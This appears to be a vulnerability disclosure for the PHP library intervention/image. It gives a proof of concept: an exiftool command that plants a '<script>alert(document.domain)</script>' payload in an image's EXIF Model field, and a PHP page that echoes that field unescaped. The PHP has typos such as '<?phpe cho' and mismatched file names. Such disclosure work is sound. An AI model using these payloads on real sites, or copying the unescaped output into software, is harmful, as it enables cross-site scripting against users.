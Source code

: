 # Description

`intervention/image` is an image handling and manipulation library. This package is vulnerable to XSS via reading the exif data from image.

# POC

1. Create a project dir in your htdocs folder
2. Install the package using composer. [here](http://image.intervention.io/getting_started/installation)
3. Create the image payload using any exiftool. But below is how I created it
```
1. Download exiftool using [this](https://exiftool.org/) tool
2. Install it [here](https://exiftool.org/install.html)
3. Modify the image to add 'Model' key then value '<script>alert(document.domain)</script>'
4. Open terminal -> change directory to where the image is located
5. run this command 'exiftool -Model="<script>alert(document.domain)</script>" imagefilename.jpg'
6. Move it in your project root dir
```
4. Create a page.php file on your project root dir then copy and paste this code below
```
<?php
```
<?php

require 'vendor/autoload.php';

// import the Intervention Image Manager Class
use Intervention\Image\ImageManagerStatic as Image;

$filename = './imagefilename.jpeg';

// read all existing data into an array
$data = Image::make($filename)->exif();

// read model of the camera
$name = Image::make($filename)->exif('Model');

?>

<!DOCTYPE html>
<html>
<head>
	<title></title>
</head>
<body>
	<?phpe cho $name;?>
</body>
</html>
```
5. Open terminal in your project root dir, then run command `php -S 127.0.0.1:8080`
6. Open a browser then navigate to `http://127.0.0.1:8080/page.php` to trigger the XSS payload



